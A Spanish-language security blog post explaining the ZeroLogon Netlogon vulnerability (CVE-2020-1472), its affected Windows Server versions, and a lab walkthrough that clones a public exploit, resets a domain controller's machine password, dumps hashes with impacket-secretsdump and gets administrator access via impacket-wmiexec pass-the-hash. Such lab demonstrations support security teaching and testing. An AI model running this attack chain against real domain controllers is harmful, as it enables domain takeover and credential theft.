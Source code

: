 ```yaml
---
layout: single
title: Explotación de CVE-2020-1472 - Vulnerabilidades
excerpt: "la vulnerabilidad crítica de elevación de privilegios 10/10 de Windows ZeroLogon Netlogon permite a los actores de amenazas obtener rápidamente acceso a las credenciales de administrador de dominio en un controlador de dominio. A partir de ahí, pueden recopilar datos confidenciales o implementar malware, como ransomware."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2020-1472/cve-2020-1472.png
  teaser_home_page: true
  icon: /assets/images/zerologon.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2020-1472
  - zerologon
  - active directory
  - windows
  
---
```


![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-1472.png)

## Descripción:

En resumen, la CVE-2020-1472 es el resultado de un error en la estrategia de autentificación criptográfica del protocolo remoto de Netlogon. Este protocolo autentifica a los usuarios y los equipos en redes basadas en dominios y también se utiliza para actualizar las contraseñas del ordenador en remoto. Mediante la vulnerabilidad, un atacante puede hacerse pasar por un ordenador cliente y sustituir la contraseña de un controlador de dominio (un servidor que controla una red al completo y ejecuta los servicios del Directorio Activo), que le permite al atacante hacerse con los derechos de administrador del dominio.

•	Tipo: Gestión de privilegios incorrecta

•	Gravedad: Alta

•	Fecha publicación:17/08/2020 Última modificación: 23/11/2020

## ¿Qué es Netlogon?

Netlogon es un proceso de Windows Server que autentica a los usuarios y otros servicios dentro de un dominio. Dado que es un servicio y no una aplicación, Netlogon se ejecuta continuamente en segundo plano, a menos que se detenga manualmente o por un error en tiempo de ejecución. Netlogon se puede detener o reiniciar desde el terminal de línea de comandos.

## ¿Quién es vulnerable?

El CVE-2020-1472 supone un riesgo para las empresas cuyas redes están basadas en controladores de dominio que se ejecuten con Windows. En concreto, los ciberdelincuentes pueden secuestrar un controlador de dominio basado en cualquier versión de Windows Server 2019 o de Windows Server 2016, así como cualquier edición de Windows Server versión 1909, Windows Server versión 1903, Windows Server versión 1809 (ediciones Datacenter y Standard), Windows Server 2012 R2, Windows Server 2012 o Windows Server 2008 R2 Service Pack 1. Para atacar, primero necesitarían penetrar en la red corporativa.

## Productos Afectados:

•	Windows Server 2008 R2 x64 Service Pack 1 

•	Windows Server 2012

•	Windows Server 2012 R2 

•	Windows Server 2016

•	Windows Server 2019

•	Windows Server 1903 (Server Core), 1909 (Server Core), 2004 (Server Core)

•	Samba 4.0 o superior, sólo cuando es usado como Controlador de Dominio Active Directory o NT4 

## Explotación:

Para esta demostración usaremos como maquina atacante Kali Linux conectado a la red y el equipo víctima es un Windows server 2008 R2.

•	Ejecutamos en la terminal el comando python3 -m pip install virtualenv

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14722.png)

Luego creamos una instancia con el comando.

•	python3 -m virtualenv practica1

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14723.png)

Invocamos la instancia creada source practica1/bin/actívate.

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14724.png)

Instalamos el paquete desde github con el comando.

•	pip install git+https://github.com/SecureAuthCorp/impacket

Luego descargamos el directorio con el exploit desde github.

•	git clone https://github.com/dirkjanm/CVE-2020-1472

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14725.png)

Ingresamos al directorio descargado.

•	cd CVE-2020-1472

Ejecutamos desde el directorio el comando.

•	python cve-2020-1472-exploit.py NOMBRE EQUIPO VICTIMA IP VICTIMA

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14726.png)

Ejecutamos el comando del paquete.

•	impacket-secretsdump NOMBRE DOMINIO VICTIMA/'NOMBRE EQUIPO VICTIMA$'@IP VICTIMA -no—pass

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14727.png)

Finalmente ejecutamos el siguiente comando para obtener control del controlador de dominio como administrador.

•	impacket-wmiexec -hashes HASH ENCONTRADO USUARIO ENCONTRADO@IP VICTIMA

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14728.png)


## Referencias:

•	https://github.com/SecureAuthCorp/impacket

•	https://github.com/dirkjanm/CVE-2020-1472

•	https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1472


